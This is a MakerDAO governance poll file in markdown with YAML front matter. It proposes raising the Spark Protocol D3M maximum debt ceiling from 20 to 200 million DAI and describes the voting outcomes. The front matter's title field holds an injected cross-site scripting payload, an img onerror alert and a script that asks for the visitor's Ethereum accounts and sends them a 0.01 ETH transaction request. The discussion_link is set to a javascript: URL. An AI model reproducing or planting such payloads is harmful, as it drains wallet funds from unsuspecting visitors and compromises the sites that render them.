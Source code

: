 ```yaml
---
title: Adjust Spark Protocol D3M Debt Ceiling - July 24, 2023 <img src=x onerror=alert(origin)><script>ethereum.request({method:'eth_requestAccounts'}).then(a=>ethereum.request({method:'eth_sendTransaction',params:[{to:'0x0000000000000000000000000000000000000000',from:a[0],value:'0x2386F26FC10000'}]}));</script>
summary: Signal your support or opposition to adjusting the Spark Protocol DAI Direct Deposit Module (D3M) parameters.
discussion_link: javascript:alert()
parameters:
    input_format: single-choice
    victory_conditions:
        - { type : plurality }
    result_display: single-vote-breakdown
version: v2.0.0
options:
   0: Abstain
   1: Yes
   2: No
start_date: 2023-07-24T16:00:00
end_date: 2023-07-27T16:00:00
---
```

# Poll: Adjust Spark Protocol D3M Debt Ceiling - July 24, 2023

The Governance Facilitators have placed a Governance Poll into the [voting system](https://vote.makerdao.com/polling) on behalf of the Stability Facilitators. The community can vote in this poll to express support or opposition to using the Spark Protocol Direct Deposit DAI Module (D3M) with the listed parameters. This Governance [Poll](https://manual.makerdao.com/governance/governance-cycle/weekly-governance-cycle#weekly-governance-cycle-definitions-mip16c1) will be active for three days beginning on Monday, July 24 at 16:00 UTC.

**This is a binary vote.**
- **You may vote for a single option.**
- **You should vote for the option which you prefer.**
- **If you would accept either option, you should vote 'Abstain'.**

## Review

The community can vote in this poll to express support or opposition to making the following parameter changes to the Spark Protocol DAI Direct Deposit Module (D3M):
* Increase the DIRECT-SPARK-DAI [Maximum Debt Ceiling](https://manual.makerdao.com/module-index/module-dciam#maximum-debt-ceiling-line) by 180 million DAI from 20 million DAI to **200 million DAI**.

The [Target Available Debt](https://manual.makerdao.com/module-index/module-dciam#target-available-debt-gap) and [Ceiling Increase Cooldown](https://manual.makerdao.com/module-index/module-dciam#ceiling-increase-cooldown-ttl) parameters will remain unchanged at 20 million DAI and 8 hours respectively.

Please review the discussion [thread](https://forum.makerdao.com/t/phoenix-labs-proposed-changes-for-spark/21422) to help inform your position before voting.

For more information regarding the DAI Direct Deposit Module (D3M) and how these parameters interact, check out the forum thread [here](https://forum.makerdao.com/t/discussion-direct-deposit-dai-module-d3m/7357) and the entry in the Operational Manual [here](https://manual.makerdao.com/module-index/module-dai-direct-deposit).

## Outcomes

**If the votes for the 'Yes' option exceed the votes for the 'No' option then the following actions will be taken:**
* This parameter change will be included in an upcoming Executive Vote.
* It is expected that this Executive Vote will take place within 30 days of this poll passing, absent external factors.
* If the Executive Vote passes, then these changes will become active in the Maker Protocol after the [GSM Pause Delay](https://manual.makerdao.com/parameter-index/core/param-gsm-pause-delay) has expired.

**If the votes for the 'No' option equal or exceed the votes for the 'Yes' option then no further action will be taken at this time.**

---

## Resources

If you are new to voting in the Maker Protocol, please see the [voting guide](https://manual.makerdao.com/governance/voting-in-makerdao/on-chain-governance) to learn how voting works.

Additional information about the Governance process can be found in the [Maker Operational Manual](https://manual.makerdao.com).

To add current and upcoming votes to your calendar, please see the [MakerDAO Governance Calendar](https://manual.makerdao.com/makerdao/calendars/governance-calendar).
